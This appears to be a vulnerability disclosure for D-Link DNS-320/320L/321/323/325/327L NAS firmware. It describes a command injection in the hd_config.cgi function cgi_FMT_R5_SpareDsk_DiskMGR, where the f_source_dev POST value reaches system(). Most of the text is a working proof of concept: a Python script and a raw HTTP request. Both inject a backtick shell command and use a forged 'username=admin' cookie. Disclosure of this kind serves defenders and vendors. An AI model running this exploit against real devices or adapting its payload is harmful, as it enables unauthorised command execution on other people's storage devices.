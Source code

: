 
# Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_R5_SpareDsk_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_source_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 15 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736925887-862f64f8-91cb-476d-b98a-cc272279d0c0.png#averageHue=%23fafaf8&clientId=u6f5fb589-b626-4&from=paste&height=204&id=mzw3V&originHeight=204&originWidth=1095&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40698&status=done&style=none&taskId=uc7d1aa27-823f-424b-b256-1275a27cc23&title=&width=1095)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_R5_SpareDsk_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/133`&f_file_system=1&f_newly_dev=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```java
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_R5_SpareDsk_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/133`&f_file_system=1&f_newly_dev=1
```


